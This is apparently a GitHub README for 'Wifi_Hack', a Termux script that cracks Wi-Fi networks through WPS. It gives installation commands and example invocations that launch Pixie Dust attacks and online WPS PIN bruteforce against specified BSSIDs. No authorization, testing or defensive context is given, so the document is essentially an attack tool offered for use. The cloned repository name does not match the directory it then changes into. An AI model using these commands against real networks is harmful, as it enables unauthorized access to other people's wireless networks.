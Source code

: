 ## Wifi_Hack
## Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

## Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/abukayuum/wifi
$ cd Wifi_Hack
$ chmod +x birihack.py
$ sudo python birihack.py --help
```

## Help : `python3 birihack.py --help`
## Example : `sudo python birihack.py -i wlan0 -K`

## Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
